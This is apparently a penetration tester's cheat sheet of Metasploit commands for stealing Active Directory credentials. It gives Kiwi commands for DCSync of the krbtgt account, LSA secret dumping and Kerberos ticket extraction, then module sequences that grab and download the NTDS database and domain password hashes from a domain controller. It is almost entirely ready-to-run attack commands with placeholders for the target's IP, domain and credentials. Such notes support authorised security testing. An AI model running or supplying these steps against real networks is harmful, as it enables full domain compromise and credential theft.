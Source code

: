 # Metasploit

## 01 - DC Synchronization

### 1.1 - Kiwi

```
meterpreter > dcsync krbtgt

meterpreter > dcsync_ntlm krbtgt
```

## 02 - LSASS Injection

### 2.1 - Kiwi

```
meterpreter > lsa_dump_secrets
```

## 03 - Kerberos

### 3.1 - Kiwi

```
meterpreter > creds_kerberos
```

## 04 - NTDS

### 4.1 - SMB Network Protocol

```
msf > use auxiliary/admin/smb/psexec_ntdsgrab

msf auxiliary(admin/smb/psexec_ntdsgrab) > options

msf auxiliary(admin/smb/psexec_ntdsgrab) > set rhosts <IP>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbdomain <domain_name>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbuser <username>

msf auxiliary(admin/smb/psexec_ntdsgrab) > set smbpass < password | nt_hash>

msf auxiliary(admin/smb/psexec_ntdsgrab) > run
```

### 4.2 - Interactive Session

Enumerate the **DSA database file** via registry.

```
meterpreter > reg enumkey [-r <domain_controller_IP>] -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -v "DSA Database file" [-w <64>]
```

Retrieve credentials from NTDS.

```
meterpreter > run post/windows/gather/credentials/domain_hashdump

meterpreter > run post/windows/gather/file_from_raw_ntfs

meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/Windows/Archive Files/Zip|Windows Archive Files]]

- [Pentestlab: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)